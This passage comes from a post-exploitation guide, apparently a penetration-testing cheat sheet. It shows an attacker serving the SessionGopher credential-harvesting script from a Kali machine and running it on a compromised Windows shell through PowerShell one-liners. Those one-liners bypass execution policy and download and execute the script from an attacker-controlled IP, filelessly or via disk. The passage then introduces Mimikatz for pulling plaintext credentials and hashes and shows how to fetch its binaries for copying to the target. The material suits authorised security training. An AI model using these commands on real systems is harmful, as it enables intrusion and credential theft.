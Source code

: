 ```
root@kali:~/tools# cd SessionGopher/
root@kali:~/tools/SessionGopher# ls
README.md  SessionGopher.ps1
root@kali:~/tools/SessionGopher# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Finally we can file-lessly execute it from our remote Windows shell:

```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/SessionGopher.ps1')); Invoke-SessionGopher -Thorough"
```

Or from a Windows Powershell:

```powershell
PS C:\> IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/SessionGopher.ps1')
```

Or we can download and run it:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/SessionGopher.ps1\", \"C:\\Users\\Public\\Downloads\\SessionGopher.ps1\");
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "& { . .\SessionGopher.ps1; Invoke-SessionGopher -Thorough}"
```

## Running Mimikatz

Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of plaintext credentials from memory, password hashes from local SAM/NTDS.dit databases, advanced Kerberos functionality, and more.<br>
<https://github.com/gentilkiwi/mimikatz>

### Running traditional (binary) Mimikatz

The original and most frequently updated version of Mimikatz is the binary executable which can be found here:<br>
<https://github.com/gentilkiwi/mimikatz/releases>

First we will need to download a Mimikatz binary and copy it to the remote machine

```
root@kali:~/test# wget https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip     
--2018-10-16 15:14:49--  https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip                     
root@kali:~/test# unzip mimikatz_trunk.zip
```

Now we will need to copy the 3 files (win32 or x64 depending on the OS) required to run Mimikatz to the remote server.
